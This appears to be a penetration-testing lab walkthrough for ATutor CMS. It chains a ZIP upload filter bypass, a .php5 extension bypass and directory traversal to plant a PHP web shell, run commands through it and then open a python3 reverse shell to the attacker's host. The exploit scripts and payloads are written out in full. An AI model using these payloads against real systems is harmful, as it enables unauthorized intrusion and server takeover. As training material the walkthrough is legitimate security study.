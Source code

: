 # Remote Code Execution

## Bypassing File Upload Filters

- To gain RCE from authenticated access, can try to abuse file upload functionality within the application. Since ATutor is a CMS, it stands to reason that there should be some functionality to upload files.

### Zip File Bypass

In ATutor, one of the platforms to upload files is in the `Tests and Surveys` section. 

- When we upload a text file, we get an error message saying that “The file does not appear to be a valid ZIP file”. We can use this python script to write a text file and generate a ZIP file:
    
    ```python
    import zipfile
    from io import BytesIO
    
    def _build_zip():
        f = BytesIO()
        z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
        z.writestr('poc/poc.txt', 'offsec')
        z.close()
        zip = open('poc.zip','wb')
        zip.write(f.getvalue())
        zip.close()
    
    _build_zip()
    ```
    
- After uploading a ZIP of a text file, the error message is that the “IMS manifest file is missing”, suggesting that the ZIP file must contain specific data. We can search for the error message in the source code to identify where the error is coming from.
    
    ```bash
    grep -rnw "IMS manifest file is missing" /var/www/html/ATutor --color
    Output: /var/www/html/ATutor/include/install/db/atutor_language_text.sql
    
    We find that the error messages are defined specifically in that file, and we can use
    the error messages code to find the functionality.
    
    grep -rnw "NO_IMSMANIFEST" /var/www/html/ATutor --color
    Output:
    /var/www/html/ATutor/mods/_standard/tests/question_import.php
    /var/www/html/ATutor/mods/_standard/tests/import_test.php
    /var/www/html/ATutor/mods/_core/imscp/ims_import.php
    
    This gives us the files import_test.php and question_import.php
    ```
    

Looking inside `import_test.php`, we find that the code is checking for the file imsmanifest.xml and returning an error if not present. PHP code: 

```php
$ims_manifest_xml = @file_get_contents($import_path.'imsmanifest.xml');
 
if ($ims_manifest_xml === false) {
$msg->addError('NO_IMSMANIFEST');

if (file_exists($import_path . 'atutor_backup_version')) {
		$msg->addError('NO_IMS_BACKUP');
}
```

- We also need to pass XML file validation by creating a valid XML file.

```php
$xml_parser = xml_parser_create();

xml_parser_set_option($xml_parser, XML_OPTION_CASE_FOLDING, false); /* conform to W3C specs */
xml_set_element_handler($xml_parser, 'startElement', 'endElement');
xml_set_character_data_handler($xml_parser, 'characterData');

if (!xml_parse($xml_parser, $ims_manifest_xml, true)) {
	  die(sprintf("XML error: %s at line %d",
    xml_error_string(xml_get_error_code($xml_parser)),
 		xml_get_current_line_number($xml_parser)));
}
xml_parser_free($xml_parser);
```

- A valid XML file can be created with **`z.writestr('imsmanifest.xml', '<validTag></validTag>')`** in the Python script.
- However, upon further inspection, we find that the code will later delete the unzipped files, preventing us from using them to gain RCE. The `die` statement in the XML parsing will enable us to terminate the program and prevent the files from being deleted, allowing us to gain RCE.

```php
[line 335] clr_dir(AT_CONTENT_DIR . 'import/'.$_SESSION['course_id']);
```

- As such, we upload a ZIP file that contains a poc.txt and an invalid `imsmanifest.xml` file. This PHP is terminated early and hence our `poc.txt` file is not deleted.

```bash
sudo find / -name "poc.txt" 2>/dev/null
Output: /var/content/import/16777215/poc/poc.txt
```

### File Extension Bypass

Inside `import_tests.php`, we see the function `preImportCalledBack` is used to check the extracted files

```php
/* extract the entire archive into AT_COURSE_CONTENT . import/$course using the call back function to filter out php files */
error_reporting(0);
$archive = new PclZip($_FILES['file']['tmp_name']);
if ($archive->extract(	PCLZIP_OPT_PATH,	$import_path,
 							PCLZIP_CB_PRE_EXTRACT,	'preImportCallBack') == 0) {
 		$msg->addError('IMPORT_FAILED');
 		echo 'Error : '.$archive->errorInfo(true);
 		clr_dir($import_path);
 		header('Location: questin_db.php');
 		exit;
}
error_reporting(AT_ERROR_REPORTING);
```

Searching for `preImportCallBack`, we find the function definition in `filemanager.inc.php`

```bash
grep -rnw . -e "function preImportCallBack" --color
```

```php
function preImportCallBack($p_event, &$p_header) {
 		global $IllegalExtentions;
 
 		if ($p_header['folder'] == 1) {
 			  return 1;
 		}

 		$path_parts = pathinfo($p_header['filename']);
 		$ext = $path_parts['extension'];
 
 		if (in_array($ext, $IllegalExtentions)) {
 		    return 0;
 		}

 		return 1;
}
```

We search for the config definition of `$IllegalExtensions` to find what extensions are disallowed. 

```bash
grep -rnw . -e "illegal_extensions" --color
```

```php
$_config_defaults['illegal_extentions']
        = 'exe|asp|php|php3|bat|cgi|pl|com|vbs|reg|pcd|pif|scr|bas|inf|vb|vbe|wsc|wsf|wsh';
```

- As such, we can use extensions like `.php5` and `.phtml` to inject our malicious web shell.

## File Upload to RCE

When writing file uploads with directory traversal to RCE, we require 3 conditions

- Knowledge of the web root to know where to traverse to
- Writable location inside web root to write files
- File extension that can execute PHP code

We can use a directory traversal attack to break out of our jail to write the file to custom locations. This can be done by writing a file into the ZIP folder with the `..\` characters in the file path.

- Since we previously found the path of poc.txt to be `/var/content/import/16777215/poc/poc.txt`, we require 4 layers of ../ to exit.

```python
z.writestr('../../../../tmp/poc/poc.txt', 'offsec')
```

### Webroot

In white box situation, we will already have the web root available

If `display_errors` configuration is enabled, can use Parameter Pollution and send a GET request with arrays injected as parameters. 

- Since most back-end code do not expect arrays as values, this could trigger errors and disclose the path to PHP code files

### Writable Directories

With a white box approach, we can just list writable directories. From there, we can modify the path of the file injected by our directory traversal. 

```bash
find /var/www/html/ -type d -perm -o+w
Output: /var/www/html/ATutor/mods
```

For black box approaches, we can either use an information disclosure or brute force the web application paths. 

With the web root and accepted extensions, we can inject our malicious file. 

```python
z.writestr('../../../../var/www/html/ATutor/mods/poc.php5', data='<?php system($_GET["cmd"]);?>')
```

## RCE

For our remote code execution, we can send a GET request to our uploaded file.

```python
def send_command(ip, session, command):
    target = f"http://{ip}/ATutor/mods/poc.php5?cmd={command}"
    r = session.get(target)

    return r.text
```

## Reverse Shell

We send a `python3` reverse shell to gain a shell.  

```python
def send_reverse_shell(ip, session):
    LHOST = os.popen('ip addr show tun0').read().split("inet ")[1].split("/")[0]
    LPORT = 80

    payload = f"python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"{LHOST}\",{LPORT}));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"/bin/bash\")'"
    send_command(ip, session, payload)
```